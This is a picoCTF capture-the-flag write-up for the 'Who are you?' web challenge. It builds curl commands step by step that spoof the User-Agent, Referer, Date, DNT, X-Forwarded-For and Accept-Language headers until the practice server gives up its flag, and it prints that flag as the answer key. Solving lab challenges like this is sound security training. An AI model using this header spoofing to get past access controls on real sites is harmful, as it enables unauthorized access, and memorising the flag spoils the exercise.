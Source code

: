 # Who are you?

## Problem

> Let me in. Let me iiiiiiinnnnnnnnnnnnnnnnnnnn <http://mercury.picoctf.net:38322/>

## Solution

1. Resources: [HTTP RFC](https://tools.ietf.org/html/rfc2616) / [MDN HTTP Headers](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers) / [Language Code Table](http://www.lingoes.net/en/translator/langcode.htm) / [Sweden IP Address Ranged](https://lite.ip2location.com/sweden-ip-address-ranges)

2. `curl http://mercury.picoctf.net:38322/ | grep "<h3.*>.*<\/h3>"` --> `Only people who use the official PicoBrowser are allowed on this site!`

3. `curl --user-agent "picobrowser" http://mercury.picoctf.net:38322/ | grep "<h3.*>.*<\/h3>"` --> `I don&#39;t trust users visiting from another site.`

4. `curl --user-agent "picobrowser" --referer "http://mercury.picoctf.net:38322/" http://mercury.picoctf.net:38322/ | grep "<h3.*>.*<\/h3>"` --> `Sorry, this site only worked in 2018.`

5. `curl --user-agent "picobrowser" --referer "http://mercury.picoctf.net:38322/" -H "Date: Mon, 23 11 2018 23:23:23 GMT" http://mercury.picoctf.net:38322/ | grep "<h3.*>.*<\/h3>"` --> `I don&#39;t trust users who can be tracked.`

6. `curl --user-agent "picobrowser" --referer "http://mercury.picoctf.net:38322/" -H "Date: Mon, 23 11 2018 23:23:23 GMT" -H "DNT: 1" http://mercury.picoctf.net:38322/ | grep "<h3.*>.*<\/h3>"` --> `This website is only for people from Sweden.`

7. `curl --user-agent "picobrowser" --referer "http://mercury.picoctf.net:38322/" -H "Date: Mon, 23 11 2018 23:23:23 GMT" -H "DNT: 1" -H "X-Forwarded-For: 2.71.255.255" http://mercury.picoctf.net:38322/ | grep "<h3.*>.*<\/h3>"` --> `You&#39;re in Sweden but you don&#39;t speak Swedish?`

8. `curl --user-agent "picobrowser" --referer "http://mercury.picoctf.net:38322/" -H "Date: Mon, 23 11 2018 23:23:23 GMT" -H "DNT: 1" -H "X-Forwarded-For: 2.71.255.255" -H "Accept-Language: sv-SE" http://mercury.picoctf.net:38322/ | grep "<h3.*>.*<\/h3>"` --> `What can I say except, you are welcome`

9. Final command: `curl --user-agent "picobrowser" --referer "http://mercury.picoctf.net:38322/" -H "Date: Mon, 23 11 2018 23:23:23 GMT" -H "DNT: 1" -H "X-Forwarded-For: 2.71.255.255" -H "Accept-Language: sv-SE" http://mercury.picoctf.net:38322/ | grep "<b>.*</b>"` --> `picoCTF{http_h34d3rs_v3ry_c0Ol_much_w0w_b22d773c}`

### Flag

`picoCTF{http_h34d3rs_v3ry_c0Ol_much_w0w_b22d773c}`
